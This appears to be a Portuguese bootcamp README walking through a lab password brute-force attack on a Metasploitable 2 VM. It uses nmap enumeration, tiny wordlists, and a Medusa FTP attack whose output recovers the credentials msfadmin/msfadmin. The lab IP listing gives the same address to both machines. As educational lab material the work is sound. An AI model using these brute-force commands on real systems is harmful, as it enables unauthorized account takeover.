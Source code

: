 # Desafio-Ataque-de-Brute-Force-de-Senhas-Medusa-e-Kali-Linux
Desafio Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux do Bootcamp Santander Cibersegurança 2025

## Projeto DIO — Auditoria de Força Bruta (Kali + Medusa)
Visão Geral

Este projeto documenta a montagem de um ambiente controlado (Kali Linux + Metasploitable 2 + DVWA) e a execução de testes de força bruta utilizando a ferramenta Medusa para fins educacionais.
Objetivos: entender técnicas de brute force em FTP, formulário web e SMB; criar wordlists simples; validar acessos e sugerir mitigação.

⚠️ Este projeto foi executado em ambiente controlado (VMs próprias). Não realize esses testes em sistemas sem autorização explícita.

## Ambiente
- Host: VirtualBox

- VMs:
  - Kali Linux (atacante)
  -Metasploitable 2 (alvo) — serviços: FTP, SMB, DVWA (web)

- Rede: Host-only / Internal Network (ambas as VMs na mesma rede privada)

- IPs:
  - Kali: 192.168.56.101
  - Metasploitable 2: 192.168.56.101

## Ferramentas utilizadas

- Kali Linux

- Medusa

- DVWA

- Metasploitable 2

- Wordlists

# Procedimentos e Comandos:

1. Configurando as VM's:

1.1 Baixe as ISO's nos seguintes links:
- Kali Linux: 
  - https://www.kali.org/get-kali/#kali-platforms (Faça o Download pela opção do VirtualBox)

- Metasploitable 2:
  - https://sourceforge.net/projects/metasploitable/files/Metasploitable2/ (Faça o Download da versão mais recente)

Após os downloads, criar as VM's dentro do VirtualBox com as respectivas ISO's e configurar a rede delas como "Host-only / Internal Network", para o funcionamento do teste.

2. Auditoria

2.1 Enumeração
````
nmap -sV -p 21,22,80,445,139 192.168.56.101
````
- No primeiro passo da Auditoria, precisamos enumerar quais portas estão abertas no IP do alvo, e pra isso utilizamos o comando "nmap" seguido dos parâmetros "-sV" (versões dos serviços) e "-p" (para verificar as portas dos serviços, que no nosso caso, utilizamos portas comuns) e por último o IP.

Saída de comando
````
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 21,22,80,445,139 192.168.56.101 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 21:51 EDT
Nmap scan report for 192.168.56.101
Host is up (0.0013s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:34:A3:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.69 seconds
````
O foco do desafio está na porta 21 que seria referente ao serviço FTP que está aberto.

Para testarmos se conseguimos conexão com o serviço, digitamos o seguinte comando:
````
ftp 192.168.56.101 
````
Saída:
````
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali):
````
Aqui ele pede que informemos o usuário e senha. Como não sabemos, precisamos utilizar o Medusa para testar nomes de usuários e senhas por meio de wordlists. E pra isso utilizamos:
> Wordlist usuários
```
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt  
```
> Wordlist senhas
```
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```

Com as wordlists criadas, podemos iniciar o ataque com o Medusa.

```
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

Saída
```
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-15 22:41:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: password (1 of 4 complete)
2025-10-15 22:41:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-15 22:41:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: 123456 (2 of 4 complete)
2025-10-15 22:41:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (3 of 4 complete)
2025-10-15 22:41:12 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-15 22:41:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-15 22:41:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: password (3 of 4 complete)
2025-10-15 22:41:13 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (4 of 4 complete)
2025-10-15 22:41:15 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: qwerty (4 of 4 complete)
2025-10-15 22:41:15 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-15 22:41:15 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: password (2 of 4 complete)
2025-10-15 22:41:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-15 22:41:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-15 22:41:16 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-15 22:41:18 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-15 22:41:18 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-15 22:41:18 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
```

Percebe-se que na linha 5 da saída do código obtivemos um sucesso, onde ele nos retorna com o usuário: msfadmin e senha: msfadmin. Com isso podemos fazer o teste no comando "ftp", que irá nos apresentar a seguinte saída:

```
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

